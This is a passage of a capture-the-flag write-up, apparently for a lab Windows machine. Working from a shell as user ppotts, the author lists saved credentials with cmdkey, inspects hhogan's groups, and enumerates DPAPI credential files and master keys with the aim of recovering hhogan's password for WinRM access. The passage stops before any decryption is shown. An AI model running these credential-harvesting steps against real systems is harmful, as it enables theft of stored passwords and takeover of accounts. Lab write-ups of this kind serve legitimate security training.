 ### Access as HHogan
After getting a shell as the user `ppotts` we can start to do some pillaging and look for any saved credentials on the current account. Executing `cmdkey /list` reveals there is also a saved credential for the user `HHogan`. Looking at the privileges of this user, we see that this account is part of the `Remote Management Users` group.

```console
PS C:\Users\PPotts> cmdkey /list
Currently stored credentials:

    Target: LegacyGeneric:target=MyTarget
    Type: Generic 
    User: MyUser
    
    Target: Domain:interactive=office\hhogan
    Type: Domain Password
    User: office\hhogan

PS C:\Users\PPotts> net user hhogan
User name                    HHogan
Full Name 
<SNIP>
Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers 
```

This means that if we are able to recover the credentials of this account, we can most likely connect over WinRM. To get these credentials we can use DPAPI. The DPAPI credential files are decrypted using the user's password, and can be decrypted with the master key or the domain key in case we have access as a domain administrator.

```console
PS C:\Users\PPotts> gci -force AppData\Roaming\Microsoft\Credentials
Directory: C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          5/9/2023   2:08 PM            358 18A1927A997A794B65E9849883AC3F3E
-a-hs-          5/9/2023   4:03 PM            398 84F1CAEEBF466550F4967858F9353FB4
-a-hs-         1/18/2024  11:53 AM            374 E76CCA3670CD9BB98DF79E0A8D176F1E
```

## Root
We see three protected files and to be able to extract any data from them we need the master key.

```console
PS C:\Users\PPotts> gci -force AppData\Roaming\Microsoft\Protect
Directory: C:\Users\PPotts\AppData\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         1/17/2024   3:43 PM                S-1-5-21-1199398058-4196589450-691661856-1107
-a-hs-          5/2/2023   4:13 PM             24 CREDHIST
-a-hs-         1/17/2024   4:06 PM             76 SYNCHIST

PS C:\Users\PPotts> gci -force AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107
Directory: C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-         1/17/2024   3:43 PM            740 10811601-0fa9-43c2-97e5-9bef8471fc7d
-a-hs-          5/2/2023   4:13 PM            740 191d3f9d-7959-4b4d-a520-a444853c47eb
-a-hs-          5/2/2023   4:13 PM            900 BK-OFFICE
```